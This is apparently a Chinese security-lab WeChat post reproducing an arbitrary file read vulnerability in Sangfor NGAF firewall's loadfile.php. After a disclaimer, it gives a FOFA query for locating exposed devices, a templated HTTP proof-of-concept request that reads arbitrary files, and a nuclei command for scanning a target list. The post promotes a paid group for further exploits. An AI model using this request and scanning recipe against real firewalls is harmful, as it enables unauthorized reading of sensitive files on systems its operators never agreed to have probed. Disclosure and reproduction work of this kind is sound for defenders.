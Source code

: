 #  漏洞复现 深信服NGAF下一代防火墙loadfile.php任意文件读取漏洞

by 融云安全-sm  [ 融云攻防实验室 ](javascript:void\(0\);)

**融云攻防实验室** ![]()

微信号 gh_0dba7ff3f653

功能介绍 网络安全舆情快报

____

___发表于_

收录于合集

#漏洞复现 295 个

#深信服 4 个

**0x01  阅读须知**

**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 **0x02 漏洞描述**

深信服NGAF下一代防火墙loadfile.php存在任意文件读取漏洞。

![]()

 **0x03 漏洞复现**

 **fofa-qeury: title="SANGFOR | NGAF"**

1.使用poc进行任意文件读取

  *   *   *   *   * 

    
    
    GET /svpn_html/loadfile.php?file={{readfile}} HTTP/1.1Host: {{Hostname}}Accept: */*Content-Type: application/x-www-form-urlencodedy-forwarded-for: 127.0.0.1

![]()

2.nuclei验证脚本已发表于知识星球

  * 

    
    
    nuclei.exe -t sangfor-ngaf-loadfile-fileread.yaml -l subs.txt -stats

![]()

 **网络安全神兵利器分享** **网络安全漏洞N/0day分享** **    加入星球请扫描下方二维码，更多精，敬请期待！**👇👇👇

![]()

 **0x04   ** **公司简介******

江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......

 **编制：sm**

 **审核：fjh**

 **审核：Dog**

 **  
**

 ** **1个![]()** 1朵 ** ** ** ** ** **![]()************** **** **5毛钱**

 **天天搬砖的小M**

 **能不能吃顿好的**

 **就看你们的啦**

 ** **![]()****

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

